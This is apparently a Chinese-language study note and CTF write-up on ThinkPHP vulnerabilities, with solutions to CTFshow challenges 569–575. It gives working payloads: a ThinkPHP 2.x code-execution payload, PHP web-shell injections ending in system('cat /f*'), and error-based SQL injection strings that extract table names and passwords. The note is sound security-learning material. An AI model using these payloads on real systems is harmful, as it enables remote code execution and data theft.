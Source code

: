 ```yaml
---
title: thinkphp框架
id: thinkphp框架
---
```


<!-- more -->

太久没学习了。。就打算学习一下thinkphp这个框架，简单跟着人家审计一下

[ThinkPHP系列专题相关POC及CTFshow---ThinkPHP专题（569-579 604-626）解题思路 - Bit's Blog (xl-bit.cn)](https://www.xl-bit.cn/index.php/archives/628/)





# ThinkPHP 2.x 任意代码执行漏洞



- php版本<=5.6.29

- 成因是preg_replace()使用了修饰符/e匹配路由，导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

  ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。
  
  ```php
  #./ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102: 
  $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
  ```
  

具体分析：

[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/223149.html)

[preg_replace的/e修饰符妙用与慎用 - WiFeng的博客 (521-wf.com)](https://521-wf.com/archives/45.html)

[PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md)

payload：

```
/index.php?s=/index/index/name/${phpinfo()}
```

getshell：

```
/index.php?s=/index/index/name/${eval($_REQUEST[8])}&&8=phpinfo();
```





# Thinkphp3

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

> thinkphp3版本路由格式:
>
> ```
> http://serverName/index.php/模块/控制器/方法/参数
> ```

[ThinkPHP3.2.3SQL注入分析 - Pan3a - 博客园 (cnblogs.com)](https://www.cnblogs.com/Pan3a/p/14873308.html)

## Thinkphp3.2.3 SQL注入

### where

payload:

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```













# ctfshow-thinkphp

## 569-pathinfo的运用

```
http://serverName/index.php/模块/控制器/方法/参数
```

payload:

```
url/index.php/Admin/Login/ctfshowLogin
```

## 570-闭包路由

```php
# Application/Common/Conf/config.php
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
```

[闭包支持 · ThinkPHP3.2.3完全开发手册 · 看云 (kancloud.cn)](https://www.kancloud.cn/manual/thinkphp/1710)

payload:

```
url/index.php/ctfshow/assert/assert($_GET[1])?1=system('cat /f*')
```

## 571-控制器

[控制器定义 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1713)

一般来说，ThinkPHP的控制器是一个类，而操作则是控制器类的一个**公共方法**。

简单审计一下：

```php
# Application\Home\Controller\IndexController.class.php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($n=''){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"> <h1>CTFshow</h1><p>thinkphp 专项训练</p><p>hello,'.$n.'黑客建立了控制器后门，你能找到吗</p>','utf-8');
    }

}
```

该类就代表Home模块下的Index控制器，index操作就是访问该类中的index方法
即访问：`url/index.php/Home/Index/index/n/111`或`url/index.php/Home/Index/index/?n=111`

payload:

```
GET:
/index.php/Home/Index/index/?n=<?php eval($_POST[1]);?>

POST:
1=system('cat /f*');
```

## 572-debug模式访问log文件

> hint:**此题需要使用爆破来获得关键信息，非扫描，爆破次数不会超过365次，否则均为无效操作**

> [日志记录 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1827)
> 默认情况是debug模式下会记录日志，因此如果没有限制访问目录就容易出现文件泄露
> 且这个日志文件的命令规律是：年\_月\_日.log且日志文件是在\Application\Runtime\Logs\目录下的

bp爆破日志文件：

```
url/Application/Runtime/Logs/22_3_1.log
```

得到后门：`/index.php?showctf=<?php phpinfo();?>`

```
GET:
/index.php?showctf=<?php eval($_POST[1]);?>

POST:
1=system('cat /f*');
```

## 573-sql注入

[ThinkPHP3.2.3代码审计【find方法引起的SQL注入】_D.MIND 的博客-CSDN博客](https://blog.csdn.net/weixin_45669205/article/details/117429889)

```
?id[where]=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?id[where]=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flags'),0x7e),1)

?id[where]=1 and updatexml(1,concat(0x7e,substr((select flag4s from flags),1),0x7e),1)

```



## 574-sql注入

> ```php
> public function index($id=1){
> 	$name = M('Users')->where('id='.$id)->find();
> 	$this->show($html);
> }
> ```

```
?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flags'),0x7e),1)

?id=1 and updatexml(1,concat(0x7e,substr((select flag4s from flags),1),0x7e),1)
```



## 575-反序列化POP链

> ```php
> $user= unserialize(base64_decode(cookie('user')));
> 	if(!$user || $user->id!==$id){
> 		$user = M('Users');
> 		$user->find(intval($id));
> 		cookie('user',base64_encode(serialize($user->data())));
> 	}
> 	$this->show($user->username);
> }
> ```
